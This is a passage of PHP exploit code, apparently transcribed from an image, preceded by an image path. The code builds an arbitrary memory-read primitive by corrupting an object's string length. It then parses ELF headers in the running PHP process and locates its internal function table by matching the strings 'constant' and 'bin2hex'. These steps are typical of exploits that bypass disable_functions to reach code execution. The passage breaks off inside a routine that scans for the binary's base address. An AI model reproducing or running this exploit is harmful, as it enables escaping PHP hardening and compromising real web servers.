 ```php
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }
 
    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);
 
        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);
 
        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);
 
            if($p_type == 1 && $p_flags == 6) { 
 
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { 
                $text_size = $p_memsz;
            }
        }
 
        if(!$data_addr || !$text_size || !$data_size)
            return false;
 
        return [$data_addr, $text_size, $data_size];
    }
 
    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;
 
            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;
 
            return $data_addr + $i * 8;
        }
    }
 
    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
```